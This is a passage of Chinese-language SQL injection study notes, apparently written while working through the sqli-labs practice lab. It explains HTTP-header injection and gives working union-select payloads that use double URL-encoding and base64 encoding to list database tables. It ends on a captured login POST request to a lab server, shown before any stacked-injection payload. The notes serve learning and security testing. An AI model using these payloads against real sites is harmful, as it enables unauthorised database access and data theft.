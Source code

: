 ------

#### `http头注入`

- 用户提交的HTTP请求包的头信息未作过滤,直接带入数据库执行,可通过http头参数修改检测是否存在漏洞
- 原因:在网页代码种的`ip`字段与数据库有交互,或代码中存在超全局变量`$_SERVER[]`

| 参数                 | 含义                     |
| -------------------- | ------------------------ |
| http_host            | 获取当前域名             |
| http_user_agent      | 获取用户相关信息         |
| http_accept          | 当前请求的accept头部信息 |
| http_cookie          | 浏览器的cookie信息       |
| server_addr          | 服务器的ip地址           |
| remote_addr          | 浏览网页的用户IP         |
| http_x_forwarded_for | 浏览网页的用户IP         |
| http_client_ip       | 浏览网页的用户IP         |
| script_filename      | 当前执行脚本的绝对路径   |

------

#### `二次编码注入`

> 使用`%2527`-->`'`

```sql
?id=-1%2527 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

------

#### `base64注入`

```sql
# -1'union select 1,2,3 --+
  LTEndW5pb24gc2VsZWN0IDEsMiwzIC0tKw==
```

------

#### `堆叠注入`

> 分号结束sql语句后继续构造下一个sql语句

- 条件:使用联合查询获取表名,列名,然后使用堆叠注入

```cmd
POST /Less-42/login.php HTTP/1.1
Host: 8.137.60.154:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://8.137.60.154:8082
Connection: keep-alive
Referer: http://8.137.60.154:8082/Less-42/
Cookie: X_CACHE_KEY=18b8d5e68c691a237ceb5842f0a3b017; PHPSESSID=4tjd6fh9h132u8udgbqpt1st67
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```